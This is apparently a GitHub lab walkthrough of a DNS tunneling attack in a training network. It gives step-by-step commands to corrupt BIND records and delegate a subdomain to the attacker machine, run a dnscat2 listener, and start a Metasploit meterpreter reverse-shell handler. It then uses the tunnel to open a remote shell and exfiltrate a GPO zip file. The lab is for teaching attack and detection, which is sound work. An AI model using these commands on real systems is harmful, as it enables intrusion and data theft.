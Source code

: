 # DNS-Tunneling


# Set Up the Attack
When using DNS tunneling, the attacker must be able to act as an authoritative name server so that queries for name records are directed to his or her machine. Modern techniques use domain generation algorithms (DGA) to cycle rapidly through ephemerally-created domains. Our approach will be to compromise the records on another name server (hosted on LAMP) to create a delegation for a subdomain. Our attacking machine (PT1) will be the name server for this subdomain. To simplify things, we'll assume the compromise takes the form of having discovered the administrative credentials for LAMP.



Select the **LAMP VM** and log on using the credentials lamp and Pa$$w0rd.

Run the following commands to open the DNS records for the 515web.net domain:

**cd /etc/bind**

**sudo nano named.conf.options**

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/5d060a5c-fa65-438e-a98a-cbaa995ce2a5)

Edit and add the following two lines, confirming with Pa$$w0rd when prompted:

**dnssec-validation no;**

**allow-recursion { "any"; };**

This step is necessary because for technical reasons we cannot use the DNS server running on DC1 as a resolver. We have to query the 515web.net server directly and have it resolve our queries for us. Note that this is an unsecure configuration for an authoritative name server.
![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/c440c7c9-c5f6-472f-8926-49e80cd5526a)

Run the following command to open the DNS records for the 515web.net domain: **sudo nano db.515web.net**

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/68b4925a-2a0a-4fad-ac21-0ad40d7ab658)

Add the following records to the end of the file to delegate the records for a subdomain (pwn.515web.net) to the IP address 192.168.2.192, which is the attack machine (PT1). Be careful to add the period at the end of the domain names:

**$ORIGIN pwn.515web.net.**

**@   IN   NS   ns1.pwn.515web.net.**

**ns1  IN    A   192.168.2.192**

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/470df8b8-f6ac-430c-b583-bdcb3105bbfc)

Restart the server: **sudo service bind9 restart**


Lab topology—LAMP hosts DNS records for 515web.net, which have been corrupted to forward queries for a subdomain to PT1. The vLOCAL network is screened by the UTM1 router/firewall VM.

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/e5649673-5006-4adc-a8ca-9eb5153749de)


# Set Up a Listener

On the attacking machine, we need to set up a server to listen for connection attempts, arriving as requests for records in the pwn.515web.net domain. We will use the dnscat2 tunneling tool, developed by Ron Bowes (github.com/iagox86/dnscat2/blob/master/README.md).


 Run the following commands:

**service apache2 start**

**cd ../Downloads/dnscat2/server**

**ruby ./dnscat2.rb pwn.515web.net**

(We also need to send the client to the victim machine. We'll use our familiar evilputty.exe malware to achieve this.)


![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/5b5dc588-3619-449c-ab9a-d675a3a97adc)

Open a second terminal and run msfconsole


![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/542cac3d-28ea-4049-8e90-d47800be494a)


At the msf5 prompt, run the following commands to start the listener for the reverse shell:

**use exploit/multi/handler**

**set payload windows/meterpreter/reverse_tcp**

**set lhost 192.168.2.192**

**set lport 3389**

**exploit**

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/b3a023c0-d7fa-469c-ae02-8a4ad142c92c)


# Trigger the Attack

To view the progress of the attack, we'll run a Wireshark capture on just the right ports (call it inspired foresight).

Logged into a PC VM using credentials of  **bobby**

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/4fcbb285-d2bf-43c4-8899-e31481d90523)

Start a Wireshark capture on the Ethernet interface with the following filter:

**host not 10.1.0.1 and (port 3389 or port 53)**

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/4f967f86-7f3b-4acd-9b72-981a47fcf188)



![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/0079bb65-658b-41c7-8b68-5f5dc1453c05)


![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/c87e0204-145d-4984-bc96-fb58845c7498)


Switch to the terminal hosting dnscat2 and verify that a new window (1) has been created. You can ignore the Ruby errors. Note that the session is encrypted.

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/226c9f13-4bea-4a79-bd27-d6a236062ba2)


Let's imagine that the attacker has switched access methods, leaving the DNS backdoor running.
<br>

Switch to the terminal hosting dnscat2 and run the following commands to navigate the local system:

**window --i=1**

**shell**

**window --i=2**

**dir**

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/79160d47-0f34-46f7-a017-0ac3a947ba39)

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/a070985b-c1df-4f12-af75-fbdac9b59b54)


Let's say that the GPO zip file is of interest. We can use the DNS tunnel to download it. Run the following commands to close the local shell, reconnect to the original prompt, and run the download command:

**exit**

**window --i=1**

**download gpo.zip /root/Downloads/gpo.zip**

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/07082657-6cb8-449c-8e00-c488480dce1e)


Switch to PC1. Stop the Wireshark capture and scroll to the start of the output.

Observe the Meterpreter session established over port 3389. This is the common port for Microsoft's Remote Desktop Protocol (RDP), but the data transfer here is using raw TCP packets.

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/cbffe2ee-a4f0-4437-a28a-29486b263bc7)

Scroll toward the end of the capture to observe the DNS tunneling traffic. Note that a variety of record types are used.

While this technique can circumvent many firewall configurations, it is distinctively noisy and simple for IDS to detect.

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/f31869fc-a538-4a26-bc09-53b30f01b94a)

